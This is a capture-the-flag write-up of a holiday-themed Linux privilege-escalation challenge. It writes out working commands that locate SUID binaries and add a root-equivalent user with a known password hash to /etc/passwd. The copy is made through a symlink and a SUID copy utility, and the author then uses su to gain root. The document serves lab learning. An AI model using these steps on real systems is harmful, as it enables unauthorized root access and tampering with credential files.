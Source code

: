 # Preface
![](../images/Linux-PrivEsc.jpg)

Challenge Description: Rosemold is in Ostrich Saloon on the Island of Misfit Toys. Give her a hand with escalation for a tip about hidden islands.

Location: Island of Misfit Toys - Ostrich Saloon

Difficulty: 3 out of 5 trees


# Linux PrivESC:
When I first started the challenge, I was greeted with:

```txt
In a digital winter wonderland we play,
Where elves and bytes in harmony lay.
This festive terminal is clear and bright,
Escalate privileges, and bring forth the light.

Start in the land of bash, where you reside,
But to win this game, to root you must glide.
Climb the ladder, permissions to seize,
Unravel the mystery, with elegance and ease.

There lies a gift, in the root's domain,
An executable file to run, the prize you'll obtain.
The game is won, the challenge complete,
Merry Christmas to all, and to all, a root feat!

* Find a method to escalate privileges inside this terminal and then run the binary in /root *
```

Using the article provided by the hint *Linux Privilege Escalation Guide (Updated for 2023)* by Rashid-Ferose published by Payatu, I tried the strategies provided by the article. When I came across this:

![](../images/Linux-PrivEsc-part-1.png)

It seemed interesting. In order to see if the Linux system I was working on had anything that could be used for a privilege escalation attack that also had a SUID bit set, I used this command:

```txt
find / -perm -u=s -type f 2>/dev/null
```

After I executed the command, the result was:

![](../images/Linux-PrivEsc-part-2.png)

The simplecopy command seemed interesting. Since it had a sudo attribute set, I could theoretically use it to perform a linux privelege escalation attack by overwrititng the password file to give me root access. But first I needed to check if simplecopy had was an actual file copier, so I ran:

```txt
simplecopy
```

After I executed the command, the result was:

`Usage: simplecopy <source> <destination>`

So simplecopy is basically the `cp` command but with a SUID bit set. Now I only need to check if simplecopy has root read and write permissons. In order to do this, I typed:

```txt
ls -la /usr/bin/simplecopy
```

After I executed the command, the result was:

![](../images/Linux-PrivEsc-part-4.png)

Simplecopy has root read and write permissions. I then read the article *Linux Privilege Esclation using the SUID bit* by Rangeforce, where I found this interesting bit:

![](../images/Linux-PrivEsc-part-5.png)

Simplecopy can read and write. This could be the solution. I then continued to read:

![](../images/Linux-PrivEsc-part-6.png)

I then followed the instructions, and typed:

```txt
mkdir source
cp /etc/passwd source/passwd
echo 'root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash' >> source/passwd
ln -s /etc destination
simplecopy source/passwd destination
su root2
```
When asked for the password for the `su` user root2, I typed `mrcake` (WVLY0mgH0RtUI is mrcake encrypted as mentioned by the article that root2's password is mrcake). I then gained root access. Since I had to run the binary that was in the `/root` folder, I typed:

```txt
cd ..
cd ..
cd root
ls
```

The output of the `ls` command showed me that binary in `/root` was named `runmetoanswer`. To run the binary, I typed:

```txt
./runmetoanswer
```

Which resulted in this prompt:

```txt
Who delivers Christmas presents?

>
```
I first typed `Santa` as my answer, which was incorrect. So I reran the binary and entered `santa` as my answer, and the result was:

![](../images/Linux-PrivEsc-part-10.png)

Done.







